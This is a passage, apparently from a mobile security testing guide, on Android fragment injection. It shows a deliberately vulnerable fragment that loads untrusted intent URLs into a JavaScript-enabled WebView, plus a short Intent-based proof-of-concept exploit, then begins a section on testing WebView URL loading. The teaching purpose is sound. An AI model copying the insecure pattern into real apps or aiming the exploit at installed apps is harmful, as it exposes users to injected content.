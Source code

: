 ### Example of Vulnerable App and Exploitation

MainActivity.class

```java
public class MainActivity extends PreferenceActivity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
}
```

MyFragment.class

```java
public class MyFragment extends Fragment {
    public void onCreate (Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
    public View onCreateView(LayoutInflater inflater, ViewGroup container, Bundle savedInstanceState) {
        View v = inflater.inflate(R.layout.fragmentLayout, null);
        WebView myWebView = (WebView) wv.findViewById(R.id.webview);
        myWebView.getSettings().setJavaScriptEnabled(true);
        myWebView.loadUrl(this.getActivity().getIntent().getDataString());
        return v;
    }
}
```

To exploit this vulnerable Activity, you can create an application with the following code:

```java
Intent i = new Intent();
i.setFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
i.setClassName("pt.claudio.insecurefragment","pt.claudio.insecurefragment.MainActivity");
i.putExtra(":android:show_fragment","pt.claudio.insecurefragment.MyFragment");
i.setData(Uri.parse("https://security.claudio.pt"));
startActivity(i);
```

The [Vulnerable App](https://github.com/clviper/android-fragment-injection/raw/master/vulnerableapp.apk "Vulnerable App Fragment Injection") and [Exploit PoC App](https://github.com/clviper/android-fragment-injection/blob/master/exploit.apk "PoC App to exploit Fragment Injection") are available for downloading.

## Testing for URL Loading in WebViews (MSTG-PLATFORM-2)

### Overview

WebViews are Android's embedded components which allow your app to open web pages within your application. In addition to mobile apps related threats, WebViews may expose your app to common web threats (e.g. XSS, Open Redirect, etc.).

One of the most important things to do when testing WebViews is to make sure that only trusted content can be loaded in it. Any newly loaded page could be potentially malicious, try to exploit any WebView bindings or try to phish the user. Unless you're developing a browser app, usually you'd like to restrict the pages being loaded to the domain of your app. A good practice is to prevent the user from even having the chance to input any URLs inside WebViews (which is the default on Android) nor navigate outside the trusted domains. Even when navigating on trusted domains there's still the risk that the user might encounter and click on other links to untrustworthy content (e.g. if the page allows for other users to post comments). In addition, some developers might even override some default behavior which can be potentially dangerous for the user. See the Static Analysis section below for more details.
